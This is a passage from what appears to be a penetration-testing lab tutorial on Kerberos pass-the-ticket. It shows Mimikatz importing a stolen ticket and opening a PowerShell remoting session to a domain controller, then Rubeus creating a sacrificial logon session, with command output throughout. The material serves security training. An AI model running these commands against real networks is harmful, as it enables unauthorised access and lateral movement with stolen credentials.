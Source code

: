 
## Mimikatz - PowerShell Remoting with Pass the Ticket

To use PowerShell Remoting with Pass the Ticket, we can use Mimikatz to import our ticket and then open a PowerShell console and connect to the target machine. Let's open a new `cmd.exe` and execute `mimikatz.exe`, then import the ticket we collected using `kerberos::ptt`. Once the ticket is imported into our `cmd.exe` session, we can launch a PowerShell command prompt from the same `cmd.exe` and use the command `Enter-PSSession` to connect to the target machine.

```cmd-session
C:\tools> mimikatz.exe
mimikatz # privilege::debug
mimikatz # kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"

mimikatz # exit

c:\tools>powershell
PS C:\tools> Enter-PSSession -ComputerName DC01
[DC01]: PS C:\Users\john\Documents> whoami
inlanefreight\john
[DC01]: PS C:\Users\john\Documents> hostname
DC01
[DC01]: PS C:\Users\john\Documents>
```


## Rubeus - PowerShell Remoting with Pass the Ticket
Rubeus has the option `createnetonly`, which creates a sacrificial process/logon session ([Logon type 9](https://eventlogxp.com/blog/logon-type-what-does-it-mean/)). The process is hidden by default, but we can specify the flag `/show` to display the process, and the result is the equivalent of `runas /netonly`. This prevents the erasure of existing TGTs for the current logon session.

#### Create a sacrificial process with Rubeus

```cmd-session
C:\tools> Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.3


[*] Action: Create process (/netonly)


[*] Using random username and password.

[*] Showing process : True
[*] Username        : JMI8CL7C
[*] Domain          : DTCDV6VL
[*] Password        : MRWI6XGI
[+] Process         : 'cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 1556
[+] LUID            : 0xe07648
```
